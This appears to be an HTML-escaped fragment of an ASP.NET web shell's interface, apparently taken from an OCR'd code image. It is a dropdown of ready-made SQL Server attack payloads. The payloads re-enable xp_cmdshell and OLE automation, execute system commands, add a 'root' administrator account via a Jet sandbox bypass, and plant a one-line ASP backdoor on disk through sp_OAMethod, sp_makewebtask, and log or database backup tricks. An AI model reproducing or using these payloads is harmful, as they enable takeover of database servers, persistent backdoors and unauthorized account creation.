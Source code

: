&lt;div id="irTU" runat="server"&gt;&lt;/div&gt;
&lt;div id="uXevN" runat="server"&gt;
Please select a database : &lt;asp:DropDownList runat="server" ID="Pvf" AutoPostBack="True" OnSelectedIndexChanged="zOVO" CssClass="list"&gt;&lt;/asp:DropDownList&gt;
SQLExec : &lt;asp:DropDownList runat="server" ID="FGEy" AutoPostBack="True" OnSelectedIndexChanged="zOVO" CssClass="list"&gt;&lt;asp:ListItem Value=""&gt;-- SQL Server Exec --&lt;/asp:ListItem&gt;&lt;asp:ListItem Value="Use master dbcc addextendedproc('xp_cmdshell','xplog70.dll')"&gt;Add xp_cmdshell&lt;/asp:ListItem&gt;&lt;asp:ListItem Value="Use master dbcc addextendedproc('sp_OACreate','odsole70.dll')"&gt;Add sp_oacreate&lt;/asp:ListItem&gt;&lt;asp:ListItem Value="Exec sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;"&gt;Add xp_cmdshell(SQL2005)&lt;/asp:ListItem&gt;&lt;asp:ListItem Value="Exec sp_configure 'show advanced options',1;RECONFIGURE;exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE;"&gt;Add sp_oacreate(SQL2005)&lt;/asp:ListItem&gt;&lt;asp:ListItem Value="Exec sp_configure 'show advanced options',1;RECONFIGURE;exec sp_configure 'Web Assistant Procedures',1;RECONFIGURE;"&gt;Add makewebtask(SQL2005)&lt;/asp:ListItem&gt;&lt;asp:ListItem Value="Exec sp_configure 'show advanced options',1;RECONFIGURE;exec sp_configure 'Ad Hoc Distributed Queries',1;RECONFIGURE;"&gt;Add openrowset/opendatasource(SQL2005)&lt;/asp:ListItem&gt;&lt;asp:ListItem Value="Exec master.dbo.xp_cmdshell 'net user'"&gt;XP_cmdshell exec&lt;/asp:ListItem&gt;&lt;asp:ListItem Value="EXEC MASTER..XP_dirtree 'c:\',1,1"&gt;XP_dirtree&lt;/asp:ListItem&gt;&lt;asp:ListItem Value="Declare @s int;exec sp_oacreate 'wscript.shell',@s out;Exec SP_OAMethod @s,'run',NULL,'cmd.exe /c echo ^&lt;%execute(request(char(35)))%^&gt;&gt;c:\bin.asp';"&gt;SP_oamethod exec&lt;/asp:ListItem&gt;&lt;asp:ListItem Value="sp_makewebtask @outputfile='c:\bin.asp',@charset=gb2312,@query='select ''&lt;%execute(request(chr(35)))%&gt;'''"&gt;SP_makewebtask make file&lt;/asp:ListItem&gt;&lt;asp:ListItem Value="exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1;select * from openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\ias.mdb','select shell(&#34;cmd.exe /c net user root root/add &#34;)')"&gt;SandBox&lt;/asp:ListItem&gt;&lt;asp:ListItem Value="create table [bin_cmd]([cmd] [image]);declare @a sysname,@s nvarchar(4000)select @a=db_name(),@s=0x62696E backup log @a to disk=@s;insert into [bin_cmd](cmd)values('&lt;%execute(request(chr(35)))%&gt;');declare @b sysname,@t nvarchar(4000)select @b=db_name(),@t='e:\1.asp' backup log @b to disk=@t with init,no_truncate;drop table [bin_cmd];"&gt;LogBackup&lt;/asp:ListItem&gt;&lt;asp:ListItem Value="create table [bin_cmd]([cmd] [image]);declare @a sysname,@s nvarchar(4000)select @a=db_name(),@s=0x62696E backup database @a to disk=@s;insert into [bin_cmd](cmd)values('&lt;%execute(request(chr(35)))%&gt;');declare @b sysname,@t nvarchar(4000)select @b=db_name(),@t='c:\bin.asp' backup database @b to disk=@t WITH DIFFERENTIAL,FORMAT;drop table [bin_cmd];"&gt;DatabaseBackup&lt;/asp:ListItem&gt;&lt;/asp:DropDownList&gt;
&lt;/div&gt;
